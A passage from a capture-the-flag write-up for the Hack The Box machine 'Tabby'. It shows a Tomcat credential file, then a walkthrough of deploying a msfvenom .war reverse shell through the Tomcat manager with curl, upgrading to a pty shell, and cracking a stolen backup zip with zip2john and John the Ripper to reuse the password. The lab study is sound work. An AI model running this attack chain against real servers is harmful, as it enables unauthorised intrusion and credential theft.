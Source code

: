 ```xml
  <user username="tomcat" password="<must-be-changed>" roles="tomcat"/>
  <user username="both" password="<must-be-changed>" roles="tomcat,role1"/>
  <user username="role1" password="<must-be-changed>" roles="role1"/>
-->
   <role rolename="admin-gui"/>
   <role rolename="manager-script"/>
   <user username="tomcat" password="Password" roles="admin-gui,manager-script"/>
</tomcat-users>
```

## implant reverse shell
We know that tomcat has a role as **manager-script**, we will try to use this role and exploit tomcat manager.
I found this [article](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/). There is many way to do but it seem like there is only one way that we can exploit the machine. which is us **Tomcat manager remote deploy script**


after some digging I found [this](https://martin.podval.eu/2013/10/tomcat-7-remote-deployment.html) and [this](https://stackoverflow.com/questions/4432684/tomcat-manager-remote-deploy-script). Here is what we need to do 
1. use curl to upload our .war shell script and deploy it
2. open netcat, listen
3. execute our .war shell and get foodhold on the machine.


let start with create .war shell using `msfvenom`. We can find the location that .war shell should be upload to on the [document](https://tomcat.apache.org/tomcat-9.0-doc/manager-howto.html). check Deploy A New Application Archive (WAR) Remotely.
```console
curl -u 'tomcat:$3cureP4s5w0rd123!' --upload-file kurohat.war "http://tabby.htb:8080/manager/text/deploy?path=/kurohat"
OK - Deployed application at context path [/kurohat]
```
now execute .war by visit *http://tabby.htb:8080/kurohat/*


mfsvenom shell.war sucks let use pty shell
```console
which python
which python3
/usr/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")' # spawn pty shell
```
## User privilage
check home directory of Tomcat and Apache. I found `16162020_backup.zip` in Apache home directory ```/var/www/html/```. Python simplehttpserver were use to tranfer the file from the box to kali. Now in Kali
```console
root@kali:/home/kali/HTB/tabby# zip2john 16162020_backup.zip > output.txt
root@kali:/home/kali/HTB/tabby# john --wordlist=/usr/share/wordlists/rockyou.txt output.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
PASSWORD         (16162020_backup.zip)
1g 0:00:00:01 DONE (2020-06-28 11:36) 0.8000g/s 8290Kp/s 8290Kc/s 8290KC/s adnc153..adenabuck
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
The password optained from cracked the zip file is possible to be password which **ash** (user) use.
